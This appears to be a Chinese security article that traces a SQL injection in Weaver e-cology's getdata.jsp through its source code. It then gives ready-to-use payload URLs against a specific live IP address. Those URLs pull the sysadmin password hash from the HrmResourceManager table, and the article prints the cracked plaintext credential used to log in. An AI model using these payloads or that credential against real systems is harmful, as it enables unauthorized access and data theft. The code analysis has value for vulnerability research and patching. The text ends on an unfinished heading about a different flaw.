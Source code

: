 weaver.hrm.common.AjaxManager.getData(HttpServletRequest,ServletContext) :

方法处理

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamTaCtwUKKJBWQKyibicrbKicrBgfVUObzDfnXBF7Om8hcA09Zv0HGW0ia0A/640?wx_fmt=png)

在 getData 方法中，判断请求里 cmd 参数是否为空，如果不为空，调用 proc 方法  

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamg6XYTF0ZDkZzErISXA3Sp69WFgmu7thW4BsiaeiaW92LqKL7g8hecXjg/640?wx_fmt=png)

Proc 方法 4 个参数，(“空字符串”,”cmd 参数值”,request 对象，serverContext 对象)  

在 proc 方法中，对 cmd 参数值进行判断，当 cmd 值等于 getSelectAllId 时，再从请求中获取 sql 和 type 两个参数值，并将参数传递进 getSelectAllIds（sql,type）方法中

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamNEptR9MoM6zHjDSExibFSsFEnOiaROcmYb9algwgZnIwsibjGwjZibbetQ/640?wx_fmt=png)

在 getSelectAllIds（sql,type）方法中，直接将 sql 参数的值，传递进数据库执行，并判断 type 的值是否等于 5，如果等于 5，获取查询结果的 requestId 字段，否则获取查询结果的 id 字段  

到此，参数从 URL，一直到数据库被执行

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiam1pmKZwlNvBzH6ic6cCNa9Iq7TE1K8Ur5IJAmic8PyLKibv2g404crM3iag/640?wx_fmt=png)

根据以上代码流程，只要构造请求参数  

?cmd= getSelectAllId&sql=selectpassword as id from userinfo;

即可完成对数据库操控

在浏览器中，构造测试 URL：

http://106.15.190.147/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%201234%20as%20id

页面显示 1234

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamSIzsCSnkI2iaNkgh4mUxBro44pNz7FfC6e9LzA9r6XyCPNzlxVQ2PlQ/640?wx_fmt=png)

使用 payload：

Select password as id from HrmResourceManager

http://106.15.190.147/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager

查询 HrmResourceManager 表中的 password 字段，页面中返回了数据库第一条记录的值（sysadmin 用户的 password）

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamshkBljS7C0tOuu7Gv6zdT73Y0vsbr5js6PPGPITTQgZBaNeA55K6ibQ/640?wx_fmt=png)

对密文进行 md5 对比：

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiamFLZmXu6V5fsst62Fuu2CZ2lPFGrzEHsaHOSJGNfCtt4lcIGkLhHPhQ/640?wx_fmt=png)

使用 sysadmin    123450aA. 登录系统

![](https://mmbiz.qpic.cn/mmbiz_png/mdx5mgryce8guqcrSUD0pUf9ic0k3uRiam0f8IxqtOLqicXqKDiasofoCwGQP6dLya1TWHK506HPG9pCHv9iay1AyQg/640?wx_fmt=png)

**默安蜜罐管理平台未授权问**  
